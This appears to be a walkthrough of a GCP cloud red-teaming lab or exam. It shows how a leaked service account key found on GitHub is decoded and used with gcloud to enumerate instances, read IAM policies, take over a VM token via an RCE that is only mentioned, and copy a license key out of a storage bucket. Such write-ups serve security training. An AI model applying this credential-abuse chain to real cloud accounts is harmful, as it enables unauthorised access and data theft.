


# GCP Cloud Red Teaming

## 1. Full URL of GitHub repository where leaked dev service account key stored which is belongs to “cwl-metatech corp” organisation?
- Search up `org:cwl-metatech` on Github to find the repo:


> Answer: https://github.com/cwl-metatech/production-data

## 2. What is the Project ID of “dev service account”?
- In this Github repo, there is an encrypted keyfile stored at: https://github.com/cwl-metatech/production-data/blob/main/pipeline.yml
- Base64 decode it and store it under [key.json](key.json)
- Login using this keyfile:
```pwsh
> gcloud auth activate-service-account --key-file .\key.json
Activated service account credentials for: [dev-service-account@mcrta-exam.iam.gserviceaccount.com]
```
- The project ID is embedded in the service account email:
```pwsh
> gcloud auth list
                    Credentialed Accounts
ACTIVE  ACCOUNT
*       dev-service-account@mcrta-exam.iam.gserviceaccount.com
        hanoi2003.a@gmail.com

To set the active account, run:
    $ gcloud config set account `ACCOUNT`
```

> Answer: mcrta-exam

## 3. Name of the compute instance “dev service account” can access?
- Set the project and list compute instances inside the `mcrta-exam` project:
```pwsh
> gcloud config set project mcrta-exam
WARNING: [dev-service-account@mcrta-exam.iam.gserviceaccount.com] does not have permission to access projects instance [mcrta-exam] (or it may not exist): The caller does not have permission. This command is authenticated as dev-service-account@mcrta-exam.iam.gserviceaccount.com which is the active account specified by the [core/account] property
Are you sure you wish to set property [core/project] to mcrta-exam?

Do you want to continue (Y/n)?  Y

Updated property [core/project].
> gcloud compute instances list
NAME           ZONE           MACHINE_TYPE   PREEMPTIBLE  INTERNAL_IP  EXTERNAL_IP   STATUS
stag-instance  us-central1-b  n1-standard-1               10.10.1.2    34.27.221.40  RUNNING
```

> Answer: stag-instance

## 4. Email ID of the service account attached to the compute instance?

- Get the compute instance detail and read the `email` field:
```pwsh
> gcloud compute instances describe stag-instance
No zone specified. Using zone [us-central1-b] for instance: [stag-instance].
canIpForward: false
cpuPlatform: Intel Haswell
creationTimestamp: '2025-11-13T05:25:08.077-08:00'
deletionProtection: false
disks:
- architecture: X86_64
  autoDelete: true
  boot: true
  deviceName: persistent-disk-0
  diskSizeGb: '10'
  guestOsFeatures:
  - type: UEFI_COMPATIBLE
  - type: VIRTIO_SCSI_MULTIQUEUE
  - type: GVNIC
  - type: SEV_CAPABLE
  - type: SEV_LIVE_MIGRATABLE_V2
  index: 0
  interface: SCSI
  kind: compute#attachedDisk
  licenses:
  - https://www.googleapis.com/compute/v1/projects/debian-cloud/global/licenses/debian-12-bookworm
  mode: READ_WRITE
  source: https://www.googleapis.com/compute/v1/projects/mcrta-exam/zones/us-central1-b/disks/stag-instance
  type: PERSISTENT
fingerprint: zA1efGJclCk=
id: '5659253709217489628'
kind: compute#instance
labelFingerprint: 42WmSpB8rSM=
lastStartTimestamp: '2025-11-13T05:25:16.738-08:00'
machineType: https://www.googleapis.com/compute/v1/projects/mcrta-exam/zones/us-central1-b/machineTypes/n1-standard-1
metadata:
  fingerprint: 1VNGuajLWeQ=
  items:
  - key: ssh-keys
    value: |-
      devops:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA8F02xyCeSQCoQ/ItGMxr2B5/ZhIX3XAX4/tMaUi4CNWxOkbldqTpy9yiI++dqdf1s2yrUvxL0gj8vJrkOgCfgRuUlbRb4BWxglCKNAoYpaZg6KeCWPz5sA4AVS6pve+PQXrb3m2X16q2h5kndiCntRAISP4W722R7TAUB31KZ+ms7px1kqzkdAotDVC0uEeDWLBzzq2e8vIE9OniRXP6tnx8qPs3gKd86dwyUDTPXV5j8OG+K0+ZrxARfTA5oNfAazc3bhE5Cw9XfC7WWj2EuEGrQ2E0JhYoeuXx6NVnPgI6eaIQC7xMvMbJ4AgIjxoZGyyhEW7Lj26U0KxZG8S9 hacker@Hacker-PC
      parth_agrawal:ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLqLorSZRfFS/MJfc7pXt+zd4+bM4uSvwkY3T2q68VI94bXNVuAgE3QPbLZ8PY9Knsd1UEdi853/0G9t6CTcsFI= google-ssh {"userName":"parth.agrawal@cyberwarfare.live","expireOn":"2025-11-14T11:40:47+0000"}
      parth_agrawal:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAGJ4GZ5zZs0evhYl0/I30cPMsBsGS1mOCwGCApQSzB06rkrJNsqU1w0MjJdoxKcTyKCb2aQXLdcqetDpj34tuRUsE7YN9gyZwGuFHwPsnQGSqKjHHfYDssUZTHk4TOVCcXZLcrRIhg+JieOOBD7DmIa+BONdDMZ5R69Inc4J7qbycSOZCBgC+uR1M69QR/ez7G6onLg+hVsjgkd34UTY51Bd+a97dId5BSiC0W8NNJGLgW5+loW1VgMZQ/MFB/UKoDmajEfjVlYj6MWRGLM4lxBRIC+j/WKudcHo96DwmC3YJz/SRLKIQhV+QwpxsLlmkak76uMIZLVpWc8ALnH9uXc= google-ssh {"userName":"parth.agrawal@cyberwarfare.live","expireOn":"2025-11-14T11:40:54+0000"}
  kind: compute#metadata
name: stag-instance
networkInterfaces:
- accessConfigs:
  - kind: compute#accessConfig
    name: external-nat
    natIP: 34.27.221.40
    networkTier: PREMIUM
    type: ONE_TO_ONE_NAT
  fingerprint: z5bNK9T1B-M=
  kind: compute#networkInterface
  name: nic0
  network: https://www.googleapis.com/compute/v1/projects/mcrta-exam/global/networks/stag-vpc
  networkIP: 10.10.1.2
  stackType: IPV4_ONLY
  subnetwork: https://www.googleapis.com/compute/v1/projects/mcrta-exam/regions/us-central1/subnetworks/public-subnet-stag-vpc
resourceStatus:
  effectiveInstanceMetadata:
    vmDnsSettingMetadataValue: ZonalOnly
satisfiesPzi: false
scheduling:
  automaticRestart: true
  onHostMaintenance: MIGRATE
  preemptible: false
  provisioningModel: STANDARD
selfLink: https://www.googleapis.com/compute/v1/projects/mcrta-exam/zones/us-central1-b/instances/stag-instance
serviceAccounts:
- email: vm-service-account@mcrta-exam.iam.gserviceaccount.com
  scopes:
  - https://www.googleapis.com/auth/cloud-platform
shieldedInstanceConfig:
  enableIntegrityMonitoring: true
  enableSecureBoot: false
  enableVtpm: true
shieldedInstanceIntegrityPolicy:
  updateAutoLearnPolicy: true
startRestricted: false
status: RUNNING
tags:
  fingerprint: 7XLBdwIeS7E=
  items:
  - http
  - ssh
```

> Answer: vm-service-account@mcrta-exam.iam.gserviceaccount.com

## 5. Name of role, the service account attached to compute instance have on a project level?
- Access the compute instance at 34.27.221.40 and leverage the RCE to get the `vm-service-account@mcrta-exam.iam.gserviceaccount.com` token:

- Use this token to list IAM policies for the `mcrta-exam` project:
```pwsh
> gcloud projects get-iam-policy mcrta-exam --access-token-file .\token.txt
bindings:
- members:
  - serviceAccount:stag-service-account@mcrta-exam.iam.gserviceaccount.com
  role: projects/mcrta-exam/roles/FunctionAdmin2qk
- members:
  - serviceAccount:dev-service-account@mcrta-exam.iam.gserviceaccount.com
  role: projects/mcrta-exam/roles/VMReadgek
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/cloudfunctions.admin
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/compute.admin
- members:
  - serviceAccount:service-31497736195@compute-system.iam.gserviceaccount.com
  role: roles/compute.serviceAgent
- members:
  - serviceAccount:31497736195-compute@developer.gserviceaccount.com
  - serviceAccount:31497736195@cloudservices.gserviceaccount.com
  role: roles/editor
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/iam.roleAdmin
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/iam.serviceAccountAdmin
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/iam.serviceAccountKeyAdmin
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/iam.serviceAccountUser
- members:
  - serviceAccount:prod-service-account@mcrta-exam.iam.gserviceaccount.com
  role: roles/owner
- members:
  - serviceAccount:vm-service-account@mcrta-exam.iam.gserviceaccount.com
  role: roles/reader
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/resourcemanager.projectIamAdmin
- members:
  - serviceAccount:terraform-automation@mcrta-exam.iam.gserviceaccount.com
  role: roles/storage.admin
etag: BwZDeeA_iiI=
version: 1
```
- Look for the `vm-service-account@mcrta-exam.iam.gserviceaccount.com` member section and read the role
- Or can use this command for easy lookup:
```pwsh
> gcloud projects get-iam-policy mcrta-exam --flatten="bindings[].members" --filter="bindings.members=serviceaccount:vm-service-account@mcrta-exam.iam.gserviceaccount.com" --format="value(bindings.role)" --access-token-file token.txt
roles/reader
```

> Answer: reader

## 6. Email id of service account which have “VMRead*” custom role on project level.
- Read the above command result or use this command for easy lookup:
```pwsh
> gcloud projects get-iam-policy mcrta-exam --flatten="bindings[].members" --filter="bindings.members=serviceaccount:dev-service-account@mcrta-exam.iam.gserviceaccount.com" --format="value(bindings.role)" --access-token-file token.txt
projects/mcrta-exam/roles/VMReadgek
```

> Answer: dev-service-account@mcrta-exam.iam.gserviceaccount.com

## 7. What is the Permission “VMRead*” custom role have?
- Get detail from this role and read the `includedPermissions` section:
```pwsh
> gcloud iam roles describe VMReadgek --project mcrta-exam --access-token-file .\token.txt
etag: BwZDec0ZnLg=
includedPermissions:
- compute.instances.list
name: projects/mcrta-exam/roles/VMReadgek
stage: GA
title: VM Reader
```

> Answer: compute.instances.list

## 8. What permission “dev service account” have on compute instance level?

- Get IAM policies from `stag-instance`: 
```pwsh
> gcloud compute instances get-iam-policy stag-instance --zone us-central1-b --project mcrta-exam --access-token-file .\token.txt
bindings:
- members:
  - serviceAccount:dev-service-account@mcrta-exam.iam.gserviceaccount.com
  role: roles/reader
etag: BwZDedX3MIo=
version: 1
```

> Answer: reader
## 9. What is the name of cloud storage account, service account attached to vm can access?
- List cloud storage account:
```pwsh
> gcloud storage ls --access-token-file .\token.txt
gs://stag-storage-metatech-prod11/
```

> Answer: stag-storage-metatech-prod11
## 10. Value of License key stored in cloud storage?
- List the storage and copy its content to local to read it:
```pwsh
> gcloud storage ls gs://stag-storage-metatech-prod11/ --access-token-file .\token.txt
gs://stag-storage-metatech-prod11/license-key.txt
PS D:\CyStack\L.SEC.AUD.Learning\MCRTA\GCP> gcloud storage cp gs://stag-storage-metatech-prod11/license-key.txt . --access-token-file .\token.txt
Copying gs://stag-storage-metatech-prod11/license-key.txt to file://.\license-key.txt
  Completed files 1/1 | 29.0B/29.0B
> more .\license-key.txt
V13JG-NPH5M-S97JM-9MPGT-3S66T
```

> Answer: V13JG-NPH5M-S97JM-9MPGT-3S66T